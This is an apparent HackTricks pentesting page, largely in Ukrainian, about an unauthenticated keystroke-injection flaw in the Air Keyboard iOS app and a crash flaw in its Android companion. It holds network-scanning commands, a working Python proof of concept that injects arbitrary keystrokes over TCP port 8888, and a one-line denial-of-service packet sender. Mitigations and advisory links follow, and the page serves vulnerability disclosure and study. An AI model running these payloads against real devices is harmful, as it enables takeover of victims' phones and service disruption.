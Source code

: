 # Air Keyboard Remote Input Injection (Unauthenticated TCP Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

iOS версія комерційного додатку "Air Keyboard" (App Store ID 6463187929) відкриває **TCP сервіс у відкритому тексті на порту 8888**, який приймає кадри натискань клавіш **без жодної аутентифікації**. Будь-який пристрій в тій же Wi-Fi мережі може підключитися до цього порту та впровадити довільний ввід з клавіатури у телефон жертви, досягаючи **повного віддаленого захоплення взаємодії**.

Супутня Android версія слухає на **порту 55535**. Вона виконує слабкий AES-ECB хендшейк, але створене сміття викликає **некероване виключення в рутині розшифрування OpenSSL**, що призводить до збою фонової служби (**DoS**).

## 1. Service Discovery

Скануйте локальну мережу та шукайте два фіксовані порти, які використовуються додатками:
```bash
# iOS (input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
На пристроях Android ви можете локально визначити відповідний пакет:
```bash
adb shell netstat -tulpn | grep 55535     # no root required on emulator

# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                # map PID → package name
```
## 2. Формат кадру (iOS)

Бінарний файл розкриває наступну логіку парсингу всередині рутини `handleInputFrame()`:
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Заявлена довжина включає байт `device_id` **але не** сам двобайтовий заголовок.

## 3. Експлуатація PoC
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard for iOS"""
import socket, sys

target_ip = sys.argv[1]                  # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"     # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                         # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("Injected", keystrokes)
```
Будь-який друкований ASCII (включаючи `\n`, `\r`, спеціальні клавіші тощо) може бути надісланий, ефективно надаючи зловмиснику таку ж силу, як і фізичний ввід користувача: запуск додатків, надсилання IM, відвідування фішингових URL тощо.

## 4. Android Companion – Відмова в обслуговуванні

Android порт (55535) очікує 4-символьний пароль, зашифрований за допомогою **жорстко закодованого AES-128-ECB ключа**, за яким слідує випадковий nonce. Помилки парсингу піднімаються до `AES_decrypt()` і не перехоплюються, що призводить до завершення потоку прослуховування. Один неправильно сформований пакет достатній, щоб утримувати законних користувачів відключеними, поки процес не буде перезапущено.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
## 5. Корінна причина

1. **Відсутність перевірок походження / цілісності** на вхідних кадрах (iOS).
2. **Неправильне використання криптографії** (статичний ключ, ECB, відсутня перевірка довжини) та **відсутність обробки виключень** (Android).

## 6. Заходи пом'якшення та ідеї щодо зміцнення

* Ніколи не відкривайте неавтентифіковані сервіси на мобільному пристрої.
* Виводьте секрети для кожного пристрою під час onboarding та перевіряйте їх перед обробкою введення.
* Прив'яжіть слухача до `127.0.0.1` і використовуйте взаємно автентифікований, зашифрований транспорт (наприклад, TLS, Noise) для віддаленого керування.
* Виявляйте несподівані відкриті порти під час оглядів безпеки мобільних пристроїв (`netstat`, `lsof`, `frida-trace` на `socket()` тощо).
* Як кінцевий користувач: видаліть Air Keyboard або використовуйте його лише в надійних, ізольованих Wi-Fi мережах.

## Чек-лист для виявлення (Pentesters)
```bash
# Quick one-liner to locate vulnerable devices in a /24
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - | awk '/Ports/{print $2,$3,$4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do echo -n \"$p → "; cat /proc/$p/cmdline; done"
```
## Посилання

- [Вразливість віддаленого введення в додатку Air Keyboard для iOS все ще не виправлена](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)
- [Консультація CXSecurity WLB-2025060015](https://cxsecurity.com/issue/WLB-2025060015)

{{#include ../../banners/hacktricks-training.md}}
